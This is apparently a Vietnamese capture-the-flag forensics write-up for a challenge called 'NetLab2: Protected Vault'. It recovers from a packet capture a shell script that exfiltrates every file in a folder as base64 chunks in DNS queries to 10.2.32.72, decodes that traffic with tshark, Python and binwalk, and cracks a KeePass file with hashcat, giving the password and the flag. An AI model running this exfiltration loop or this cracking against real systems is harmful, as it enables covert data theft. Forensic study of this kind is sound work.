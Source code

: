 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```-.```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.

```python
# Đọc nội dung từ tệp input
with open('dns.txt', 'r', encoding='utf-8') as file:
    content = file.readlines()

# Xử lý nội dung
processed_lines = []
for line in content:
    # Giải mã chuỗi hex
    try:
        decoded_line = bytes.fromhex(line.strip()).decode('utf-8')
        
        # Thay thế '-.' bằng ký tự xuống dòng
        decoded_line = decoded_line.replace('-.', '\n')
        
        # Thay thế '}' bằng '+'
        decoded_line = decoded_line.replace('}', '+')
        
        # Thay thế '{' bằng '/'
        decoded_line = decoded_line.replace('{', '/')
        
        # Nếu dòng không chứa "ubuntu", thêm vào danh sách
        if 'ubuntu' not in decoded_line:
            processed_lines.append(decoded_line)
    except Exception as e:
        print(f"Không thể giải mã dòng: {line.strip()} - Lỗi: {e}")

# Ghi kết quả vào tệp output
with open('t2.txt', 'w', encoding='utf-8') as file:
    file.writelines(processed_lines)

print("Quá trình xử lý đã hoàn tất!")

```

Sau khi tách bằng file code sau được file t3.txt nhưng không đẩu đủ chúng ta cần xóa những dòng dư thừa bằng code python sau.

```python
# Các chuỗi cần xóa
strings_to_remove = [
    "7bgTtW3Fp59pgy", "2PmGj7XTSNwg5", "2NHJWYG1EYAkZ",
    "2x9kyYFcUyDeC2c65", "4xUi2j75eJtNc1", "2tuJoHGout6YhgSX3",
    "9CUmw2dKFRrmvfhiEM"
]

# Đọc nội dung từ tệp input
with open('t2.txt', 'r', encoding='utf-8') as file:
    lines = file.readlines()

# Lọc các dòng không chứa các chuỗi cần xóa
filtered_lines = [
    line for line in lines if not any(substring in line for substring in strings_to_remove)
]

# Ghi kết quả vào tệp output
with open('gob', 'w', encoding='utf-8') as file:
    file.writelines(filtered_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau đó chúng ta decode base64 treeb cyberchef đem đi binwalk.

sau z chúng ta binwalk được file nén sau được con đường hy vọng.

```python
╭─   nart   ~/Solve                                                                          ✔  03:10:54 AM  ─╮
╰─❯ binwalk -e pls.zip                                                                                               ─╯

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, has original file name: "blueteam.bmp", from Unix, last modified: 2022-04-08 06:35:19
27707         0x6C3B          gzip compressed data, has original file name: "discord.png", from Unix, last modified: 2022-09-25 06:48:33
27734         0x6C56          PNG image, 256 x 256, 8-bit colormap, non-interlaced
29086         0x719E          gzip compressed data, has original file name: "Flag.kdbx", from Unix, last modified: 2022-10-24 06:24:10
31373         0x7A8D          gzip compressed data, has original file name: "gaixinh.jpg", from Unix, last modified: 2022-07-19 18:20:33
40164         0x9CE4          gzip compressed data, has original file name: "kcsc.png", from Unix, last modified: 2022-09-25 06:48:33
53705         0xD1C9          gzip compressed data, has original file name: "meme.jpg", from Unix, last modified: 2022-09-25 06:48:33
69258         0x10E8A         gzip compressed data, has original file name: "update.sh", from Unix, last modified: 2022-10-24 06:59:42
```
thấy được đích r

![image](https://github.com/user-attachments/assets/0d331f03-b9cd-467e-a04c-1df059a2332f)

Sau khi mò thì thấy file Flag.kdbx hợp lý nhất nên sẽ tấn công nó.

Có vẻ như file ```.kdbx``` là file nén đặc biệt nên cần tải công cụ đặc biệt để mở nó.

![image](https://github.com/user-attachments/assets/d1a72f03-8115-4ce9-a217-6e85f72bfb49)

Không chỉ là đặc biệt mà còn cần key.

Chúng ta sẽ hash nó ra và get key bằng hashcat vì không thể kiếm thấy key trong file.

![image](https://github.com/user-attachments/assets/5deafc64-f33f-4076-bee6-33a37c0ccb00)

tôi lưu vào file ```pass```. Và chạy chay tìm pass.

```python
╭─   nart   ~/Solve/_pls.zip.extracted                                            ✔  1m 14s   12:37:02 PM  ─╮
╰─❯ hashcat -m 13400 -a 0 hash Wiki10k.txt                                                                           ─╯
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12500H, 2848/5760 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache built:
* Filename..: Wiki10k.txt
* Passwords.: 10000
* Bytes.....: 76508
* Keyspace..: 10000
* Runtime...: 0 secs

$keepass$*2*60000*0*54b674142f9a18aaed00cf79a0bfc32ba37b843b48123f453a83c2c81ca44ffe*24dfb9b36f51c496db792487fa2368078a41f51f0b84ffe57e427e6efe6d987f*b9772351efb550cb41d4d41c0ae6022c*0904ea8a12808b2a8e15385b6891f97e92bf35241f1e21598dec77ef1eae8347*1c22d2dc121964a9c2f89891eea06739c66631f083b09045989ea6bde85f3f8a:iloveyou

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: $keepass$*2*60000*0*54b674142f9a18aaed00cf79a0bfc32...5f3f8a
Time.Started.....: Tue Nov  5 12:41:04 2024 (2 secs)
Time.Estimated...: Tue Nov  5 12:41:06 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Wiki10k.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      230 H/s (4.41ms) @ Accel:32 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/10000 (5.12%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/10000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:59904-60000
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> guinness

Started: Tue Nov  5 12:40:10 2024
Stopped: Tue Nov  5 12:41:08 2024
```
pass nhận được là ```iloveyou```

giờ nhập vào và getkey thôi.

![image](https://github.com/user-attachments/assets/7bb70ad8-7d0f-42e0-a16a-83366e75518b)

flag : ```Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}```



